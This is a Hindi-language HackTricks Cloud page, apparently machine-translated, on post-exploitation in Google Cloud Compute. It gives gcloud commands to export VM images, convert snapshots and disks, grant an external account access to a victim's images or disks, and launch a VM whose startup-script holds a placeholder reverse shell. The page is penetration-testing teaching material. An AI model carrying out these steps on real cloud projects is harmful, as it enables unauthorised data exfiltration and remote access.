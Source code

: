 # GCP - कंप्यूट पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## कंप्यूट

कंप्यूट और VPC (नेटवर्किंग) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### छवियों को स्थानीय रूप से निर्यात और जांचें

यह एक हमलावर को **पहुँचने की अनुमति देगा जो पहले से मौजूद छवियों में विशिष्ट डेटा तक पहुँच सकता है** या **चल रहे VMs की नई छवियाँ बना सकता है** और उनके डेटा तक पहुँच सकता है बिना चल रहे VM का उपयोग करने के लिए पहुँच।

एक VM छवि को एक बाल्टी में निर्यात करना संभव है और फिर इसे डाउनलोड करके निम्नलिखित कमांड के साथ स्थानीय रूप से माउंट करना:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस कार्रवाई को करने के लिए हमें स्टोरेज बकेट पर विशेषाधिकार और निश्चित रूप से **क्लाउडबिल्ड पर विशेषाधिकार** की आवश्यकता हो सकती है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।
इसके अतिरिक्त, इसे काम करने के लिए कोडबिल्ड एसए और कंप्यूट एसए को विशेषाधिकार अनुमतियां चाहिए।
क्लाउडबिल्ड एसए `<प्रोजेक्ट-आईडी>@cloudbuild.gserviceaccount.com` को चाहिए:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और एसए `<प्रोजेक्ट-आईडी>-compute@developer.gserviceaccount.com` को चाहिए:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्नैपशॉट और डिस्क को स्थानीय रूप से निर्यात और जांच करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **स्नैपशॉट को एक डिस्क में परिवर्तित करना, एक डिस्क को एक इमेज में** संभव है और **पिछले खंड** का पालन करते हुए, उस इमेज को स्थानीय रूप से जांचने के लिए निर्यात करें।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### एक छवि की जांच करें जो एक वीएम बनाने के लिए है

**एक छवि में संग्रहित डेटा** या **चल रही वीएम** में से जहां हमलावर ने **एक छवि बनाई है**, उस छवि पर एक बाह्य खाता को पहुंच देना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया वीएम बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपने बाह्य खाते को छवि पर पहुंच नहीं दे सकते थे, तो आप पीड़ित के परियोजना में उस छवि का उपयोग करके एक वीएम लॉन्च कर सकते थे और **मेटाडेटा को एक रिवर्स शैल निष्पादित करने के लिए** छवि तक पहुंचने के लिए पैरामीटर जोड़ें:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### स्नैपशॉट/डिस्क की जांच करें जो एक वीएम से जुड़ा हो

**एक डिस्क या स्नैपशॉट में संग्रहित डेटा तक पहुंचने की उद्देश्य से, आप स्नैपशॉट को एक डिस्क में बदल सकते हैं, एक डिस्क को एक इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **डिस्क पर एक बाहरी खाता एक्सेस दे सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर एक्सेस दें या उससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**इंस्टेंस को डिस्क संलग्न करें**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
वीएम के अंदर डिस्क माउंट करें:

1.  **वीएम में एसएसएच करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क की पहचान करें**: वीएम के अंदर जाने के बाद, नए डिस्क की पहचान करें डिस्क उपकरणों की सूची देखकर। सामान्यत: आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पा सकते हैं।
3. **डिस्क को फॉर्मेट और माउंट करें** (अगर यह एक नया या रॉ डिस्क है):
*   माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

अगर आप **स्नैपशॉट या डिस्क को एक्सटर्नल प्रोजेक्ट को एक्सेस नहीं दे सकते** हैं, तो आपको संभावत: **स्नैपशॉट/डिस्क के समान प्रोजेक्ट में एक इंस्टेंस के अंदर इन क्रियाओं को करने की आवश्यकता** हो सकती है।
